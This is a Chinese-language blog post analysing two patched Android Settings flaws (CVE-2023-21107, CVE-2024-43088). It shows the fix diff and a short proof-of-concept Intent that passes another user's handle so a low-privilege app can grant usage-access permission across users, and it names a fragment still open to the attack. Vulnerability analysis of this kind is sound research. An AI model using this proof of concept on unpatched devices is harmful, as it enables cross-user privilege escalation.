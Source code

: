 ```yaml
---
title: 组件缺失校验导致跨用户CVE-2023-21107&CVE-2024-43088
slug: blog/discussion-3/
number: 3
url: https://github.com/CloveIso/notes/discussions/3
date:
  created: 2024-11-21
  updated: 2024-11-21
created: 2024-11-21
updated: 2024-11-21
authors: [Cloveiso]
categories: ['CVE分析']
comments: true
---
```


# 组件缺失校验导致跨用户CVE-2023-21107&CVE-2024-43088

作为一个关键系统应用，系统设置拥有跨用户权限，此漏洞中的一个 Fragment 接收外部传递的 user handle 而没有任何输入校验和权限检查，然后直接开始使用这个 user handle，这样就使得攻击者可以利用一个低权限的恶意应用，打开 Settings 并传入其他用户的 handle，让高权限的 Settings 错误访问和操作其他用户的数据。

CVE-2023-21107漏洞补丁：[Enforce INTERACT_ACROSS_USERS_FULL permission for NotificationAccessDetails](https://android.googlesource.com/platform/packages/apps/Settings/+/179e5ce2a521710992b5ebdb2d88e0c3b3f2c12b^!/#F0)

CVE-2024-43088漏洞补丁：[Checks cross user permission before handling intent](https://android.googlesource.com/platform/packages/apps/Settings/+/975c28535419be1cc45f66712f41e4a7a40e6001)

## CVE-2024-43088分析

两个漏洞基本一模一样，这里以CVE-2024-43088为例浅浅分析一下

先看一下补丁：

```java
@@ -135,8 +137,13 @@
             }
         }
         if (intent != null && intent.hasExtra(Intent.EXTRA_USER_HANDLE)) {
-            mUserId = ((UserHandle) intent.getParcelableExtra(
-                    Intent.EXTRA_USER_HANDLE)).getIdentifier();
+            mUserId = ((UserHandle) intent.getParcelableExtra(Intent.EXTRA_USER_HANDLE))
+                    .getIdentifier();
+            if (mUserId != UserHandle.myUserId() && !hasInteractAcrossUsersPermission()) {
+                Log.w(TAG, "Intent not valid.");
+                finish();
+                return "";
+            }
         } else {
             mUserId = UserHandle.myUserId();
         }
@@ -159,6 +166,28 @@
         return mPackageName;
     }
 
+    @VisibleForTesting
+    protected boolean hasInteractAcrossUsersPermission() {
+        Activity activity = getActivity();
+        if (!(activity instanceof SettingsActivity)) {
+            return false;
+        }
+        final String callingPackageName =
+                ((SettingsActivity) activity).getInitialCallingPackage();
+
+        if (TextUtils.isEmpty(callingPackageName)) {
+            Log.w(TAG, "Not able to get calling package name for permission check");
+            return false;
+        }
+        if (mPm.checkPermission(Manifest.permission.INTERACT_ACROSS_USERS_FULL, callingPackageName)
+                != PackageManager.PERMISSION_GRANTED) {
+            Log.w(TAG, "Package " + callingPackageName + " does not have required permission "
+                    + Manifest.permission.INTERACT_ACROSS_USERS_FULL);
+            return false;
+        }
+        return true;
+    }
+
```

主要添加了hasInteractAcrossUsersPermission。当userID和当前的userID不同时就会调用hasInteractAcrossUsersPermission函数来校验拉起方是否有跨用户权限

找到漏洞位置：public abstract class AppInfoBase extends SettingsPreferenceFragment implements ApplicationsState.Callbacks，是一个fragment，并且是一个抽象类

![aosp.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158042230_aosp.png)

 查找该函数调用：

![image-20241111155852745.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158465468_image-20241111155852745.png)

以com.android.settings.applications.UsageAccessDetails为例，对应的是com.android.settings.Settings.AppUsageAccessSettingsActivity

![image-20241111160036278.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158582299_image-20241111160036278.png)

我们直接拉起他看是什么样的

```
                Intent intent = new Intent();
                intent.setClassName("com.android.settings", "com.android.settings.Settings$AppUsageAccessSettingsActivity");
                intent.setData(Uri.parse("com.android.chrome"));
                startActivity(intent);
```

![image-20241111160719648.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158670050_image-20241111160719648.png)

看到这个界面大概就明白了。就是可以跨用户授权呗

先随便写个应用，申请一下android.permission.PACKAGE_USAGE_STATS权限安装到user10

![image-20241111160202204.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158839396_image-20241111160202204.png)

![image-20241111160314023.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732158981135_image-20241111160314023.png)

现在是不允许状态

![image-20241111160843406.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732159148933_image-20241111160843406.png)

然后我们切换回主用户再写一个应用

```
Intent intent = new Intent();
intent.setClassName("com.android.settings", "com.android.settings.Settings$AppUsageAccessSettingsActivity");
intent.setData(Uri.parse("com.android.test5"));
UserHandle us = UserHandle.getUserHandleForUid(1010000);
Log.e(TAG, "onClick: " + us );
intent.putExtra("android.intent.extra.user_handle", us);
startActivity(intent);
```

![image-20241111160549919.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732159477345_image-20241111160549919.png)

运行poc之后是这样子的

![image-20241111160600370.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732159559467_image-20241111160600370.png)

我们点击允许按钮，然后再切换到user10，这时已经变成已允许了

![image-20241111160909923.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732159825397_image-20241111160909923.png)

## 杂项

com.android.settings.applications.AppInfoBase的子类有很多，该问题代码在AppInfoBase的onCreate函数里就会调用。所以按理来说他的所有子类都是可以利用的。

但是实际并不是这样。由于settings的fragment的启动限制，有两种情况是没法利用的。

一种是只能由点击进入的fragment，例如com.android.settings.applications.AppStorageSettings

还有一种是在FRAGMENT_TO_SPA_APP_DESTINATION_PREFIX_MAP这个map里的

因为在这两个map里的fragment会调用com.android.settings.spa.SpaActivity$Companion.startSpaActivityForApp函数

![image-20241111170151967.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732160032804_image-20241111170151967.png)

startSpaActivityForApp函数会从intent中获取包名。然后末尾加上当前的userID，导致无法利用

![image-20241111170218170.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732172359362_image-20241111170218170.png)

那么还有哪些fragment可以利用呢，我仔细过滤了一遍：

然后只发现了一个0.0

com.android.settings.applications.appinfo.LongBackgroundTasksDetails

![image-20241111170554992.png](https://98d91d58.cloudflare-imgbed-d3m.pages.dev/file/1732172423758_image-20241111170554992.png)



